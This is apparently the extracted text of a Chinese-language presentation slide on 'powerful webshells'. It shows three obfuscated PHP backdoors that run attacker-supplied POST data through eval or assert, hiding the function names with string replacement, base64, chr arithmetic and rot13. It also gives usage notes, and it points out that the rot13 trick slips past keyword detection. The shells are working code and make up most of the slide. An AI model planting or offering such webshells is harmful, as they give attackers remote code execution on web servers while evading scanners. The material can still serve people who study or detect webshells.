

4
强 悍 的 W e b s h e l l
<?php
$mt = "mFsKCleRfU";
$ojj = "IEBleldle";
$hsa = "E9TVFsnd2VuJ10p";
$fnx = "Ow==";
$zk = str_replace( "d", "",
"sdtdrd_redpdldadcde" ); //str_replace
$ef = $zk( "z", "", "zbazsze64_zdzeczodze" );
//base64_decode
$dva = $zk( "p", "",
"pcprpepaptpe_fpupnpcptpipopn" );
//create_function
$zvm = $dva( '', $ef( $zk( "le", "", $ojj . $mt .
$hsa . $fnx ) ) ); // @eval($_POST['wen']);
$zvm();
?>
<?php
$a=range(1,200);$b=chr($a[96-1+1]).chr($a[114-1+1]).chr($a[114-
1+1]).chr($a[100-1+1]).chr($a[113-1+1]).chr($a[115-1+1]);
$b(${chr($a[94]).chr($a[79]).chr($a[78]).chr($a[82]).chr($a[83])}[chr  ($a[51])]);
?>
用法：assert(${_POST}[4]);
post传参：4=phpinfo();
($b4dboy = $_POST['b4dboy']) &&  @preg_replace('/ad/e','@'.str_rot13('riny').’
($b4dboy)', 'add');
str_rot13(‘riny’)即编码后的eval完全避开了关键
字又不失效果